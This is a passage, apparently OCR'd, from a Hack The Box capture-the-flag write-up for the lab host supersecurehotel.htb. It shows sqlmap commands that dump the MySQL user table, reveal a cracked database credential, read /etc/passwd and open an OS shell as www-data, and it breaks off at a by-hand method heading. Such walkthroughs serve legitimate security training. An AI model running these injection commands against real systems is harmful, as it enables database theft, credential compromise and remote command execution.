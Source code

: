             Database: mysql
            [30 tables]
            +----------------------------------------------------+
            | user                                               |
            | column_stats                                       |
            ...
            | time_zone_leap_second                              |
            | time_zone_transition_type                          |
            +----------------------------------------------------+
            
            Database: performance_schema
            [52 tables]
            +----------------------------------------------------+
            | accounts                                           |
            ...
            | threads                                            |
            | users                                              |
            +----------------------------------------------------+
            ```
            
        - `sudo sqlmap -u [http://supersecurehotel.htb/room.php?cod=](http://supersecurehotel.htb/room.php?cod=) --random-agent --level=5 --risk=3 -D "mysql" -T user --dump`
        
        Find Input from Table user: Username, Password-Hash 
        ***And Successfully cack it!***
        
        DBadmin - 2D2B7A5E4E637B8FBA1D17F40318F277D29964D0 - imissyou
        
    - `sqlmap -u [http://supersecurehotel.htb/room.php?cod=1](http://supersecurehotel.htb/room.php?cod=1) --random-agent --batch --is-dba`
        
        current user is DBA: True
        
    
    Now we can read and write fiels on the system
    
    Read /etc/passwd 
    
    - `sqlmap -u [http://supersecurehotel.htb/room.php?cod=1](http://supersecurehotel.htb/room.php?cod=1) --random-agent --batch --file-read="/etc/passwd"`
    
    Fast OS-Shell
    
    - `sqlmap -u [http://supersecurehotel.htb/room.php?cod=1](http://supersecurehotel.htb/room.php?cod=1) --random-agent --batch --os-shell`
    
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    
    ---
    

### 2. **Methode - by hand**
